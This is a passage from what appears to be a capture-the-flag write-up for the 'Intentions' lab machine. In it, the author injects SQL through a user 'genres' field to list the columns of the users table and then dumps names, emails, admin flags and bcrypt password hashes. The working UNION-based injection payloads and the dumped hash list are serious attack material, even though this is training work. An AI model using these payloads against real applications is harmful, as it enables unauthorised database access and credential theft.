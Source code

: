 ```
    ]
}
```
The only database is intentions, and there are four tables: gallery_images, personal_access_tokens, migrations, and users.

The most immediately interesting table is users. I’ll update my genres to list the columns in that table:
```
')/**/UNION/**/SELECT/**/1,2,column_name,4,5/**/from/**/information_schema.columns/**/where/**/table_name='users'#
```
This returns id, name, email, password, created_at, updated_at, and genres. I’ll update my query to get all of the interesting information in one column using concat:
```
')/**/UNION/**/SELECT/**/1,2,concat(name,':',email,':',admin,':',password,':',genres),4,5/**/from/**/users#
```
I get the following users:
```
steve:steve@intentions.htb:1:$2y$10$M/g27T1kJcOpYOfPqQlI3.YfdLIwr3EWbzWOLfpoTtjpeMqpp4twa:food,travel,nature
greg:greg@intentions.htb:1:$2y$10$95OR7nHSkYuFUUxsT1KS6uoQ93aufmrpknz4jwRqzIbsUpRiiyU5m:food,travel,nature
Melisa Runolfsson:hettie.rutherford@example.org:0:$2y$10$bymjBxAEluQZEc1O7r1h3OdmlHJpTFJ6CqL1x2ZfQ3paSf509bUJ6:food,travel,nature
Camren Ullrich:nader.alva@example.org:0:$2y$10$WkBf7NFjzE5GI5SP7hB5/uA9Bi/BmoNFIUfhBye4gUql/JIc/GTE2:food,travel,nature
Mr. Lucius Towne I:jones.laury@example.com:0:$2y$10$JembrsnTWIgDZH3vFo1qT.Zf/hbphiPj1vGdVMXCk56icvD6mn/ae:food,travel,nature
Jasen Mosciski:wanda93@example.org:0:$2y$10$oKGH6f8KdEblk6hzkqa2meqyDeiy5gOSSfMeygzoFJ9d1eqgiD2rW:food,travel,nature
Monique D'Amore:mwisoky@example.org:0:$2y$10$pAMvp3xPODhnm38lnbwPYuZN0B/0nnHyTSMf1pbEoz6Ghjq.ecA7.:food,travel,nature
Desmond Greenfelder:lura.zieme@example.org:0:$2y$10$.VfxnlYhad5YPvanmSt3L.5tGaTa4/dXv1jnfBVCpaR2h.SDDioy2:food,travel,nature
Mrs. Roxanne Raynor:pouros.marcus@example.net:0:$2y$10$UD1HYmPNuqsWXwhyXSW2d.CawOv1C8QZknUBRgg3/Kx82hjqbJFMO:food,travel,nature
Rose Rutherford:mellie.okon@example.com:0:$2y$10$4nxh9pJV0HmqEdq9sKRjKuHshmloVH1eH0mSBMzfzx/kpO/XcKw1m:food,travel,nature
Dr. Chelsie Greenholt I:trace94@example.net:0:$2y$10$by.sn.tdh2V1swiDijAZpe1bUpfQr6ZjNUIkug8LSdR2ZVdS9bR7W:food,travel,nature
Prof. Johanna Ullrich MD:kayleigh18@example.com:0:$2y$10$9Yf1zb0jwxqeSnzS9CymsevVGLWIDYI4fQRF5704bMN8Vd4vkvvHi:food,travel,nature
Prof. Gina Brekke:tdach@example.com:0:$2y$10$UnvH8xiHiZa.wryeO1O5IuARzkwbFogWqE7x74O1we9HYspsv9b2.:food,travel,nature
Jarrett Bayer:lindsey.muller@example.org:0:$2y$10$yUpaabSbUpbfNIDzvXUrn.1O8I6LbxuK63GqzrWOyEt8DRd0ljyKS:food,travel,nature
Macy Walter:tschmidt@example.org:0:$2y$10$01SOJhuW9WzULsWQHspsde3vVKt6VwNADSWY45Ji33lKn7sSvIxIm:food,travel,nature
Prof. Devan Ortiz DDS:murray.marilie@example.com:0:$2y$10$I7I4W5pfcLwu3O/wJwAeJ.xqukO924Tx6WHz1am.PtEXFiFhZUd9S:food,travel,nature
Eula Shields:barbara.goodwin@example.com:0:$2y$10$0fkHzVJ7paAx0rYErFAtA.2MpKY/ny1.kp/qFzU22t0aBNJHEMkg2:food,travel,nature
Mariano Corwin:maggio.lonny@example.org:0:$2y$10$p.QL52DVRRHvSM121QCIFOJnAHuVPG5gJDB/N2/lf76YTn1FQGiya:food,travel,nature
Madisyn Reinger DDS:chackett@example.org:0:$2y$10$GDyg.hs4VqBhGlCBFb5dDO6Y0bwb87CPmgFLubYEdHLDXZVyn3lUW:food,travel,nature
Jayson Strosin:layla.swift@example.net:0:$2y$10$Gy9v3MDkk5cWO40.H6sJ5uwYJCAlzxf/OhpXbkklsHoLdA8aVt3Ei:food,travel,nature
Zelda Jenkins:rshanahan@example.net:0:$2y$10$/2wLaoWygrWELes242Cq6Ol3UUx5MmZ31Eqq91Kgm2O8S.39cv9L2:food,travel,nature
Eugene Okuneva I:shyatt@example.com:0:$2y$10$k/yUU3iPYEvQRBetaF6GpuxAwapReAPUU8Kd1C0Iygu.JQ/Cllvgy:food,travel,nature
```